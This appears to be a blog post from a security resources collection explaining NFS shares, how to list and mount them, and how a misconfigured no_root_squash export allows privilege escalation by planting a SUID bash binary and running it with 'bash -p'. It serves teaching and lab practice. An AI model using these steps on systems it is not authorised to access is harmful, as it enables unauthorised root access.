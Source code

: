 ```yaml
--- 
layout : post
title : NFS
image: /assets/img/2020-12-16 11_45_35-technology-14-512.webp (Image WEBP, 512 × 512 pixels).png
author: Edwards
date: 2021-02-01
categories: [Ressources, Tech]
math: true
--- 
```


## What is NFS ?

NFS stands for "Network File System" and allows a system to share directories and files with others over a network. By using NFS, users and programs can access files on remote systems almost as if they were local files. It does this by mounting all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.

### Mounting NFS shares 

Your client’s system needs a directory where all the content shared by
the host server in the export folder can be accessed. You can create
this folder anywhere on your system. Once you've created this mount point, you can use the "mount" command to connect the NFS share to the mount point on your machine. Like so:

sudo mount -t nfs IP:share /tmp/mount/ -nolock

- mount -> mount command 
- t nfs Type of device to mount 
- IP:share Address of the NFS server and the name of the share

### Create mount file 
```bash
mkdir /tmp/mount
```

### List NFS shares 
```bash
/usr/sbin/showmount -e [IP]
```

### Mounting 
```bash
sudo mount -t nfs IP:share /tmp/mount/ -nolock
```

## Exploiting NSF

### root_squash

By default, on NFS shares- Root Squashing is enabled, and prevents anyone connecting to the NFS share from having root access to the NFS volume. Remote root users are assigned a user “nfsnobody” when connected, which has the least local privileges. Not what we want. However, if this is turned off, it can allow the creation of SUID bit files, allowing a remote user root access to the connected system. 

### Pathway 

   NFS Access ->

        Gain Low Privilege Shell ->

            Upload Bash Executable to the NFS share ->

                Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->

                    Login through SSH ->

                        Execute SUID Bit Bash Executable ->

                            ROOT ACCESS

[!file](https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)

### File authorization
```bash
sudo chown root bash
sudo chmod +sx bash
```

### In the remote machine
```bash
./bash -p
```